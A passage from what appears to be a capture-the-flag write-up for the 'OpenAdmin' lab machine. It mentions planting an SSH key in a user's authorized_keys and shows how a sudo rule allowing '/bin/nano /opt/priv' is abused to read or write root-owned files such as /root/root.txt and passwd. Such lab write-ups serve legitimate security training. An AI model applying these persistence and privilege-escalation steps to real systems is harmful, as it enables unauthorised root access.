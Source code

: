 Now we can insert a new pubkey into joanna's authorized_keys, and please, let the "main.php" file as in the beginning :)

## Getting the root flag
First of all, see that pspy64 doesn't return any interesting thing.

Let's see if we can any privileged use:
```
joanna@openadmin:/etc/update-motd.d$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Interesting. Note that the command is all compelete "/bin/nano /opt/priv". There are no two different commands, so we can write into this file.

We can now execute:

```
sudo /bin/nano /opt/priv
```

And, with nano, click in Ctrl+R for inserting a file, and select the /root/root.txt file, or passwd, even create a new file and save it.
Easy peasy guys :)